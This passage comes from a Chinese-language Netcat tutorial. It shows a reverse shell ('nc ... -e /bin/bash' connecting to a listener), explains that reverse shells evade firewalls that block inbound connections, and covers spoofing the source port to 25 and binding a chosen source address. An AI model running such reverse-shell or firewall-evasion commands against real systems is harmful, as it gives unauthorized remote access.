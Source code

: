 服务端


```
$nc -l 1567

```

在客户端，简单地告诉Netcat在连接完成后，执行shell。

客户端


```
$nc 192.168.100.100 -e /bin/bash

```

现在，什么是反向shell的特别之处呢

反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为192.168.100.100，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向shell用于这一目的。

#### 指定源端口

假设你的防火墙过滤除25端口外其它所有端口，你需要使用-p选项指定源端口。

服务器端


```
$nc -l 1567

```

客户端


```
$nc 172.31.100.7 1567 -p 25

```

使用1024以内的端口需要root权限。

该命令将在客户端开启25端口用于通讯，否则将使用随机端口。

#### 指定源地址

假设你的机器有多个地址，希望明确指定使用哪个地址用于外部数据通讯。我们可以在Netcat中使用-s选项指定ip地址。

服务器端


```
$nc -u -l 1567 < file.txt

```

客户端


```
$nc -u 172.31.100.7 1567 -s 172.31.100.5 > file.txt

```

该命令将绑定地址172.31.100.5。


## 参考:

http://os.51cto.com/art/201304/388721.htm
